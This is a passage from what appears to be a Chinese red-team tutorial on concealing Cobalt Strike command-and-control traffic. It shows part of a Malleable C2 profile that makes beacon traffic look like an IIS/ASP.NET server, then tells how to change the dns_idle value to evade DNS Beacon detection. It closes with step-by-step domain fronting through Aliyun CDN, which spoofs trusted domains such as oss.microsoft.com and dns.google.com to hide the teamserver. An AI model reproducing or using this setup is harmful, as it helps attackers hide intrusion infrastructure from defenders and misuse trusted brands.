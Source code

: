 ```
            netbiosu;
            append ".asp";
            uri-append;
        }

        output {
            base64;
            print;
        }
    }

    server {

        header "Content-Type" "img/jpg";
        header "Server" "Microsoft-IIS/6.0";
        header "X-Powered-By" "ASP.NET";

        output {
            base64;
            print;
        }
    }
}
```

**3. 修改 Cobalt Strike dns_idle**

0.0.0.0 是 Cobalt Strike DNS Beacon 特征可设置 Malleable C2 进行修改 输入 set dns_idle "8.8.8.8";

### **域前置**  

#### **原理**

> 域前置（英语：Domain fronting），是一种隐藏连接真实端点来规避互联网审查的技术。在应用层上运作时，域前置使用户能通过 HTTP 连接到白名单域名（如 *.google.cn），无直接与 C2 服务器的通信。介绍：被攻击机器 -> `www.microport.com`(走 aliyun cdn 的域名，根据设定的 host 头: dns.google.cn 找到对应的 vps_ip) -> cdn 流量转发到 vps_ip(c2 真实地址)
> 
> ![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6lhFbJsTwuYMVYsEPo4jibrpKjCrGUJaoCEPJh17ALHcXPia1T9YnPrDw/640?wx_fmt=jpeg)

#### **实战配置 CDN**

购买云服务器，开通 CDN 服务。加速域名：随便填个高信誉的域名实现域名伪造，例如：oss.microsoft.com，dns.google.com 之类的。

登陆 aliyun。

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6Xiaibghe8GTz8Ia5PZtT58Rp78C1Dd1zWg0BxsFBx1VJh6hn5zp1YuXg/640?wx_fmt=jpeg)

在 IP 位置填写 cs_teamserver 的 IP 地址。

![](https://mmbiz.qpic.cn/mmbiz_jpg/GzdTGmQpRic3ML7MItmwV2WFvKjp9Plk6FkchMHo3o8d1icZzWPupX0iaztSdI9My5wboqcDMgjbiaeCRDmZ1kj77Q/640?wx_fmt=jpeg)

配置 c2 的 Stager 的域名为走 cdn 的地址，如：`www.microport.com.cn`
